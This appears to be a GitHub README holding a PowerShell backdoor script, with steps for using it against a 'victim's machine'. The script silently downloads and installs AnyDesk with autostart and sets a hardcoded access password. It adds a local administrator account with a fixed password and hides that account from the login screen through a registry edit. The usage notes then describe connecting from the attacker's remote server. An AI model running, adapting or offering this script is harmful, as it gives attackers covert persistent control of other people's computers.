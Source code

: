 # Bookmark-Anydesk
Bookmark AnyDesk - Read All
 Function AnyDesk {

    mkdir "C:\ProgramData\AnyDesk"
    # Download AnyDesk
    $clnt = new-object System.Net.WebClient
    $url = "http://download.anydesk.com/AnyDesk.exe"
    $file = "C:\ProgramData\AnyDesk.exe"
    $clnt.DownloadFile($url,$file)


    cmd.exe /c C:\ProgramData\AnyDesk.exe --install C:\ProgramData\AnyDesk --start-with-win --silent


    cmd.exe /c echo J9kzQ2Y0qO | C:\ProgramData/AnyDesk.exe --set-password


    net user oldadministrator "qc69t4B#Z0kE3" /add
    net localgroup Administrators oldadministrator /ADD
    reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v oldadministrator /t REG_DWORD /d 0 /f

    cmd.exe /c C:\ProgramData\AnyDesk.exe --get-id

    }

    AnyDesk


Execute code in Powershell ISE Run As Admin
We get ID
We save it to ourselves
We download Anydesk on our own remote server.
Press Console Account
Enter password
Quote

    J9kzQ2Y0qO

And then authorized by a local administrator or domain account and use the charms Anydesk
You can also download/download to the victim's machine, which can be useful for examining and searching documentation point by point.
